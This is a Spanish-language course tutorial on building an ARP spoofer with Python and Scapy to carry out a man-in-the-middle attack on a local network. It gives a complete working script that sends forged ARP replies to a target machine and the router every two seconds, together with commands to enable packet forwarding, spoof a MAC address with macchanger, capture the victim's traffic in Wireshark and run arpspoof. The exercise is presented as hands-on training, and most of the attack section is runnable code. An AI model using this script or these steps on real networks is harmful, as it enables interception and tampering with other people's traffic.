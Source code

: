 
----
- TAG: #Desarrollo #Ataque #Suplantación #ARP #Spoofer #Scapy 
-----
En esta clase, nos centraremos en la creación de un envenenador ARP (**ARP Spoofer**) utilizando Scapy, una herramienta esencial de Python para el análisis y manipulación de paquetes de red. El ARP Spoofing es una técnica de ataque en redes donde un atacante envía mensajes ARP falsificados en una red local. Esto se hace para asociar la dirección MAC del atacante con la dirección IP de otro dispositivo, como un servidor o un gateway, lo que permite al atacante interceptar el tráfico entre dos sistemas.

El concepto de **Man-In-The-Middle** (**MITM**) es crucial aquí, ya que el atacante se posiciona estratégicamente entre dos partes para interceptar o modificar el tráfico de datos, una táctica común en ataques cibernéticos. Esta técnica es posible debido a la naturaleza de confianza del protocolo ARP, que no verifica si las respuestas a las solicitudes ARP son legítimas.

Durante la clase, exploraremos cómo Scapy puede ser utilizado para implementar este tipo de ataque, proporcionando una comprensión profunda de cómo funciona el ARP Spoofing y por qué es una amenaza significativa en las redes. Esta experiencia práctica te dotará de las habilidades necesarias para identificar y prevenir estos ataques en entornos reales, fortaleciendo tu comprensión y habilidades en ciberseguridad.

---

### ARP Spoofing Manual con Scapy y Herramientas Automatizadas

En esta guía, configuraremos manualmente un ataque de ARP Spoofing usando **Scapy** en Python. Luego, exploraremos una herramienta automatizada para facilitar el proceso.

### Requisitos

- **Máquina Windows** (no virtualizada): Si tienes un portátil u otro dispositivo, intenta realizar el envenenamiento ARP en ese dispositivo. **No uses VMware o VirtualBox**, ya que las máquinas virtuales suelen compartir la misma tarjeta de red. Esto podría hacer que todo el tráfico sea interceptado sin necesidad de envenenamiento ARP, lo cual no es nuestro objetivo en este ejercicio.

### Configuración Previa en Linux

Antes de crear el script, necesitamos realizar algunas configuraciones en el sistema Linux con `iptables` y activar el reenvío de paquetes.

1. **Permitir el reenvío de paquetes:**

   ```bash
   iptables --policy FORWARD ACCEPT
   ```

   Este comando permite que la máquina Linux acepte paquetes entrantes para reenviarlos al destino adecuado.

2. **Activar el reenvío de IPs:**

   ```bash
   cat /proc/sys/net/ipv4/ip_forward
   ```

   Si ves un `0`, debes cambiarlo a `1` para habilitar el reenvío de IPs.

   ```bash
   echo 1 > /proc/sys/net/ipv4/ip_forward
   ```

   Esto es fundamental para que los paquetes puedan ser reenviados entre los dispositivos.

---

### Creación del Script `arp_spoof.py`

Este script generará respuestas ARP falsas para redirigir el tráfico entre el router y una máquina Windows.

```python
#!/usr/bin/python3

import argparse
import time
import scapy.all as scapy
from termcolor import colored
import signal
import sys

# Maneja la señal para salir del programa de forma limpia
def def_handler(sig, frame):
    print(colored(f"\n[!] Saliendo...\n", 'red'))
    sys.exit(1)

# Captura los argumentos de línea de comandos
def get_arguments():
    parser = argparse.ArgumentParser(description="ARP Spoofer")
    parser.add_argument("-t", "--target", required=True, dest="ip_address", help="IP de la máquina objetivo")
    return parser.parse_args()

# Función para enviar paquetes ARP falsos
def spoof(ip_address, spoof_ip):
    # Crear paquete ARP: op=2 indica una respuesta ARP, no una solicitud
    arp_packet = scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66")
    scapy.send(arp_packet, verbose=False)

# Función principal que ejecuta el ataque en bucle
def main():
    arguments = get_arguments()
    
    while True:
        # Falsifica la dirección MAC del router hacia la máquina objetivo
        spoof(arguments.ip_address, "192.168.1.1")
        # Falsifica la dirección MAC de la máquina objetivo hacia el router
        spoof("192.168.1.1", arguments.ip_address)
        time.sleep(2)  # Envía paquetes cada 2 segundos

# Configura una señal para manejar Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
    main()
```

### Explicación del Script

1. **Captura de Argumentos:**
   Usamos `argparse` para capturar la IP del objetivo (`-t` o `--target`).

2. **Paquetes ARP:**
   Utilizamos `scapy` para crear y enviar paquetes ARP con:
   - `op=2`: Indica una **respuesta ARP**, aunque no fue solicitada.
   - `psrc`: Es la dirección IP que estamos suplantando (en este caso, la del router).
   - `pdst`: Es la IP del objetivo (la máquina Windows).
   - `hwsrc`: Nuestra **falsa** dirección MAC que se enviará.

3. **Ciclo Infinito:**
   El ataque se realiza en bucle, enviando paquetes ARP cada 2 segundos para mantener el envenenamiento.

### Verificación de Direcciones IP y MAC

Para obtener la IP y MAC de la máquina Windows, usa los siguientes comandos:

- **IP Address (Windows):**

  ```cmd
  ipconfig
  ```

- **Direcciones MAC (Linux):**

  ```bash
  arp -a
  ```

### Cambiar Dirección MAC en Linux

Para cambiar la dirección MAC de tu interfaz de red en Linux:

1. Apaga la interfaz:

   ```bash
   ifconfig eth0 down
   ```

2. Cambia la dirección MAC:

   ```bash
   macchanger --mac=aa:bb:cc:44:55:66 eth0
   ```

3. Vuelve a subir la interfaz:

   ```bash
   ifconfig eth0 up
   ```

4. Verifica el cambio:

   ```bash
   macchanger -s eth0
   ```

### Ejecución del Script

Para correr el script y ver el cambio de dirección MAC en la máquina Windows:

```bash
python3 arp_spoof.py -t 1.2.3.4
```

Verifica la tabla ARP en Windows con:

```bash
arp -a
```

Si todo salió bien, deberías ver la dirección **MAC** que has asignado en el script.

### Interceptar Tráfico con Wireshark

Usa Wireshark para interceptar tráfico desde la máquina Windows:

1. Abre Wireshark en Linux y selecciona tu interfaz `eth0`.
2. Filtra las consultas DNS:

   ```bash
   dns.qry.name == "hack4u.io"
   ```

### Herramientas Automatizadas: `arpspoof`

Si prefieres una herramienta que automatice todo el proceso, puedes usar `arpspoof`:

```bash
arpspoof -i eth0 -t (IP de la víctima) -r (IP del router)
```

---

Con esto has completado un ataque **Man in the Middle** manual y automatizado. ¡Sigue practicando para interceptar diferentes tipos de tráfico, como imágenes y datos SSL, en futuros ejercicios!

---
